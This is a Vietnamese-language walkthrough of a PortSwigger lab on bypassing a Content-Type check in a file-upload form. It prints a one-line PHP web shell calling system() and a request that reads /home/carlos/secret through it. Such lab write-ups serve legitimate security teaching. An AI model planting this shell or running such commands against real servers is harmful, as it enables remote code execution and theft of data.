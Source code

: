 ## 1. Thông tin bài lab
- Tên lab: **Web shell upload via Content-Type restriction bypass**
- Loại lỗ hổng: File upload -> RCE (Remote Code Execution)
- Link bài lab: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- **Mục tiêu**: Upload webshell vào thư mục thực thi mã PHP, chiếm quyền điều khiển server và đọc nội dung tệp tin bí mật _**/home/carlos/secret**_
## 2. Phân tích ban đầu
**Chức năng ứng dụng:** 
- Sau khi đăng nhập tài khoản người dùng, người dùng có thể update email, upload ảnh avatar của người dùng.

![img1](./img/lab1/img1.png)

- Sau khi upload, ứng dụng thông báo đã upload thành công và đường dẫn lưu file ảnh upload.

![img2](./img/lab1/img2.png)

**Đặt giả thuyết**
-	Kiểm tra xem liệu ta có thể upload và thực thi một file php bằng cách tạo một file tên test.php với nội dung <?php phpinfo(); ?> và upload lên server.

![img6](./img/lab1/img6.png)

**Kiểm tra giả thuyết**
- Sau khi upload, ta nhận được phản hồi từ phía server kiểu file `application/octet-stream` chỉ cho phép upload các file kiểu `image/png, image/jpeg`

img

- Có vẻ như server căn cứ vào header `Content-Type` để nhận diện loại file
- Thử thay đổi nội dung header thành **image/png** hoặc **image/jpeg** và upload lại file.

img

- Kết quả upload file thành công, thử truy cập đến file thông qua phương thức GET để xem liệu mã PHP có được thực thi không?
- Mã PHP đã được thực thi tiếp theo ta tiến hành RCE và đọc nội dung tệp tin bí mật

img

## 3. Tiến hành khai thác
- Tạo một file tên _shell.php_ với nội dung là đoạn code php:

```<?php echo system($_GET['x']) ?>```

Đoạn code cho phép thực thi câu lệnh hệ thống, trong đó x là tham số ta có thể truyền vào qua URL.

img

- Truyền tham số *'x'* để đọc nội dung tệp tin bí mật `x=cat%20/home/carlos/secret`

img




















